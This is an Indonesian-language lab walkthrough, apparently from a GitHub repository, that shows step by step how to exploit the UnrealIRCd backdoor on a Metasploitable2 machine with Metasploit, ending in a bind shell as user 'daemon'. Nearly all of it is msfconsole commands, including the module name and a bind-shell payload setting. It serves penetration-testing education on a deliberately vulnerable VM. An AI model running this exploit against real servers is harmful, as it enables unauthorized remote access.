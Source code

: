 # Exploit port 6667 dan 6697 (UnrealIRCd)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%201.JPG)

- Cari modul untuk exploit UnreallRCd
```sh
search unreal
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%202.JPG)

- Gunakan modul `exploit/unix/irc/unreal_ircd_3281_backdoor` yang berada di nomor urut 2 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%204.JPG)

- Tampilkan daftar payload yang bisa dijalankan dimodul tersebut
```sh
show payloads
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%205.JPG)

- Isi parameter yang dibutuhkan di modul tersebut dan payload yang digunakan
```sh
set rhosts <IP_metasploitable2>
set payload cmd/unix/bind_ruby
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%206.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini exploit berhasil masuk ke dalam server. Jika diketik perintah `whoami` maka exploit masuk sebagai user `daemon`
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20UnreallRCd/unreallrcd%207.JPG)
